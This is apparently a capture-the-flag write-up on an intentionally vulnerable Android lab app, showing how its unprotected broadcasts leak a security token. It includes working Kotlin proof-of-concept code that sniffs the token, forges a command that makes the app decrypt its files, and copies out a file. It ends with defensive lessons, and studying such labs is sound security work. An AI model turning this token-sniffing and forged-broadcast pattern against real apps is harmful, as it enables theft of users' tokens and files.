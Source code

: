 ```yaml
---
title: "Challenge 02: AndroPseudoProtect"
published: 2025-09-15
description: "Exploiting IPC broadcast vulnerabilities to extract security tokens and bypass file encryption protection."
image: "https://lwfiles.mycourse.app/66c35021da1fe6df974b8aee-public/42e3aa7f390f8662c067b48de036761c.png"
category: "Mobile"
tags: ["android", "ipc", "broadcast-receiver", "token-extraction", "file-encryption"]
series:
  id: "8ksec-android-challenges"
  order: 2
---
```


*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## 1. Challenge Overview

We are given a victim application (`com.eightksec.andropseudoprotect`) that encrypts`/sdcard/Download/` when  “encryption” mode is enabled.

It requires a **security token** to toggle encryption/decryption, which it sends via broadcasts or services with two actions:

- `com.eightksec.andropseudoprotect.START_SECURITY`
- `com.eightksec.andropseudoprotect.STOP_SECURITY`

The challenge:

> Build a PoC app that can extract the token during normal app usage, use it to send a STOP command to the victim app, wait for it to decrypt the file, and then exfiltrate the decrypted file — all without requiring extra runtime permissions beyond storage/notification.
>

---

## 2. Vulnerability Analysis

Using JADX, we can see that we got a service provider and a broadcast receiver, both are exported.

![alt text](image.png)

First thing to check in the service provider is `onStartCommand()` method.

![alt text](image-1.png)

and the `onReceiver()` method for the broadcast receivers  

![alt text](image-2.png)

so where is the vulnerability? check the main activity ;”D

![alt text](image-3.png)

This allows *any* application on the device to register a receiver for `SecurityService.ACTION_START_SECURITY` and capture the `EXTRA_SECURITY_TOKEN` value without user consent or elevated privileges.

### IPC Broadcast Token Leakage

The victim app’s broadcasts:

- Are **not protected** by permissions.
- Contain the `security_token` extra directly.
- Can be sniffed by **any** app with a registered receiver (I used dynamic).

This means a malicious app can:

1. Listen for these broadcasts.
2. Capture the security token.
3. Reuse it to send the same service commands to decrypt and access the files.

---

## 3. Exploitation Strategy

We used **dynamic broadcast receiver registration** to stealthily hook into the victim’s IPC.

**Flow:**

1. **Start Sniffer**: On launch, our PoC automatically registers a broadcast receiver for START/STOP actions.
2. **Capture Token**: Once the victim app broadcasts a `START_SECURITY` action, we store the token.
3. **Silent STOP Command**: After waiting ~5 seconds (for victim encryption to complete), we send a `STOP_SECURITY` broadcast with the captured token.
4. **Exfiltration**: Wait for decryption to finish, then move `THIS_IS_A_POC.TXT` from `/sdcard/Download/` to `/sdcard/POC_RETRIEVED/` to prove that we can now access the file.

---

## 4. Implementation Details

### 4.1 Storage Permission Handling

We support Android R+ **MANAGE_EXTERNAL_STORAGE** and legacy READ/WRITE for older versions.

The app automatically prompts if permissions are missing.

---

### 4.2 Dynamic Token Sniffer

```kotlin
private fun startDynamicSniffer() {
    if (sniffReceiver != null) return
    sniffReceiver = object : BroadcastReceiver() {
        override fun onReceive(context: Context?, intent: Intent?) {
            val token = intent?.getStringExtra("security_token") ?: return
            capturedToken = token
            Log.i("POC", "🎯 TOKEN CAPTURED: $token")
            Handler(mainLooper).postDelayed({ automateAttack() }, 5000)
        }
    }
    val filter = IntentFilter().apply {
        addAction("com.eightksec.andropseudoprotect.START_SECURITY")
        addAction("com.eightksec.andropseudoprotect.STOP_SECURITY")
    }
    registerReceiver(sniffReceiver, filter)
}
```

### 4.3 Automated Attack Sequence

```kotlin
private fun automateAttack() {
    stopSecurity()
    Handler(mainLooper).postDelayed({ movePOCFile() }, 5000)
}
```

**STOP Command:**

```kotlin
private fun stopSecurity() {
    val stopIntent = Intent().apply {
        action = "com.eightksec.andropseudoprotect.STOP_SECURITY"
        setPackage("com.eightksec.andropseudoprotect")
        putExtra("security_token", capturedToken)
    }
    sendBroadcast(stopIntent)
}
```

### 4.4 File Retrieval

We search `/sdcard/Download/THIS_IS_A_POC.TXT` and copy it to `/sdcard/POC_RETRIEVED/` after decryption.

```kotlin
private fun movePOCFile() {
    val downloads = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS)
    val pocFile = File(downloads, "THIS_IS_A_POC.TXT")
    val destDir = File(Environment.getExternalStorageDirectory(), "POC_RETRIEVED").apply { mkdirs() }
    FileInputStream(pocFile).use { input ->
        FileOutputStream(File(destDir, pocFile.name)).use { output ->
            input.copyTo(output)
        }
    }
}
```

## 5. Attack Demonstration (ADB Logs)

![alt text](image-4.png)

## 6. Lessons Learned

- **IPC broadcasts without permission protection are dangerous** — especially when they contain sensitive tokens.
- **Dynamic registration** allows stealth attacks without static manifest clues.
- Always validate the sender and require permissions or signatures when exposing security-critical IPC.

## 7. POC

you can get the `POC` on my github.
